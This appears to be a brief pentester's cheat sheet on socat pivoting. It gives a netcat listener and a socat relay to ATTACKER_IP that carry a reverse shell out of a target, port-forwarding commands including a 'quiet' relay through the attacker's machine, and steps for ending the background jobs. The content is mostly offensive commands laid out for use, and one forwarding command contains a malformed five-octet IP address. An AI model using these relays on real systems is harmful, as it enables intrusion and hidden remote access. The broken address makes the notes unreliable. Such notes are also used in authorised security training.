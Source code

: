 ## Reverse shell relay

### Attacker: sudo nc -lvnp 443 

### Target: ./socat tcp-l:8000 tcp:ATTACKER_IP:443 &

## Port Forwarding

### ./socat tcp-l:33060,fork,reuseaddr tcp:172.1.6.0.10:3306 &

#### Fork: Puts every connection into a new process

#### Reuseaddr: The port stays open after a connection is made to it.

## Port forwarding (Quiet)

### Attacker: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

### Target: ./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

## Close backgrounded socat

### 1: jobs

### kill %num of process
